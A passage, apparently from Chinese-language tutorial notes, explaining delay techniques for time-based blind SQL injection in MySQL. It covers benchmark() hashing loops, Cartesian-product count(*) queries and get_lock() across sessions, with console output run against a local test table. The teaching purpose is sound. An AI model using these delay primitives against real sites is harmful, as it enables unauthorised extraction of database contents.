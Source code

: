    ```mysql
   mysql> select benchmark(1000000,md5('Flag'));
   +--------------------------------+
   | benchmark(1000000,md5('Flag')) |
   +--------------------------------+
   |                              0 |
   +--------------------------------+
   1 row in set (0.13 sec)
   
   mysql> select benchmark(1000000,sha1('Flag'));
   +---------------------------------+
   | benchmark(1000000,sha1('Flag')) |
   +---------------------------------+
   |                               0 |
   +---------------------------------+
   1 row in set (0.48 sec)
   ```

2. **笛卡尔积：**主要用count()函数，一般是用`count(*)`或者`count(1)`，又或者count(列名)。根据列是不是主键而会影响到性能。

   ```mysql
   mysql> select count(*) from account;
   +----------+
   | count(*) |
   +----------+
   |        1 |
   +----------+
   1 row in set (0.02 sec)
   
   mysql> select * from account;
   +-----+-------+---------+
   | aid | name  | balance |
   +-----+-------+---------+
   |   1 | admin |       1 |
   +-----+-------+---------+
   1 row in set (0.00 sec)
   
   mysql> select count(*) from account A,account B;
   +----------+
   | count(*) |
   +----------+
   |        1 |
   +----------+
   1 row in set (0.00 sec)
   ```

3. `get_lock`：这是一种比较神奇的利用技巧，延时是精确可控的，但问题在于并不是所有的站都适用

   ```
   mysql> select get_lock('flag',1);
   +--------------------+
   | get_lock('flag',1) |
   +--------------------+
   |                  1 |
   +--------------------+
   1 row in set (0.00 sec)
   
   # 此时我们重新开个窗口，需要换个session
   mysql> select get_lock('flag',5);
   +--------------------+
   | get_lock('flag',5) |
   +--------------------+
   |                  1 |
   +--------------------+
   1 row in set (5.02 sec)
   
   ```